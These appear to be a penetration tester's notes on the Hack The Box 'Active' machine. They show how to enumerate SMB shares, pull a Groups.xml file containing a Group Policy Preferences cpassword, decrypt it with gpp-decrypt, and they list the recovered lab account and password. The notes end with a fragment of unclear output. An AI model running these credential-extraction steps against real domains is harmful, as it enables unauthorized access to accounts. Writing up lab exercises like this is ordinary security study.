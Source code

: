 **Here we find Groups.xml file that include GPP (Group Policy Preferences).  Within this file is an encrypted password.  Using gpp-decrypt tool, we can crack the password to plaintext.**
https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/
Targeting Server 2012 or older.
msfdb run > smb_enum_gpp module
#### Hack The Box (Active)
https://app.hackthebox.com/machines/148
```bash
nmap -T5 $TARGET
```
```bash
smbclient -L \\\\$TARGET\\
```
```bash
smbclient \\\\$TARGET\\Replication
```
![[Port 139 445 - SMB ~#using smbclient to download all files]]
Look for Groups.xml file after downloading.  Open this file and find the cpassword.  Copy the hash value.
```bash
gpp-decrypt <HASH>
```
`active.htb\svc_tgs`
`GPPPstillSandingStrong2k18`
```
Administrator11170514135025Z0P10Uificate0
"$CHICAGO$"
```